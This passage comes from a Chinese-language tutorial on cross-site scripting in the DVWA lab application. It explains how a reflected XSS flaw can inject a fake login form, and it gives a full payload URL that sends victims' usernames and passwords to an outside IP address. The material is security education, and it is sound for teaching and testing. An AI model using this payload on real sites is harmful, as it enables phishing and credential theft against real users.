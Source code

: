 ![dvwa page xss vuln details](img/4a263d27afa7abec82fb4622f4199b74.png)

## **XSS 攻击 3:网络钓鱼窃取用户凭证**

XSS 还可用于在易受攻击的页面中插入表单，并使用该表单收集用户凭据。这种类型的攻击称为 [**钓鱼**](https://pentest-tools.com/blog/how-to-simulate-phishing-attacks-with-http-request-logger) 。

下面的有效负载将注入一个带有消息 ***的表单，请登录以继续*** ，以及**用户名**和**密码**输入字段。

当访问下面的链接时，受害者可以在注入的表单中输入其凭据。请注意，我们可以根据需要修改有效载荷，使其看起来像合法的形式。

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<h3>Please login to proceed</h3> <form action=http://192.168.149.128>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
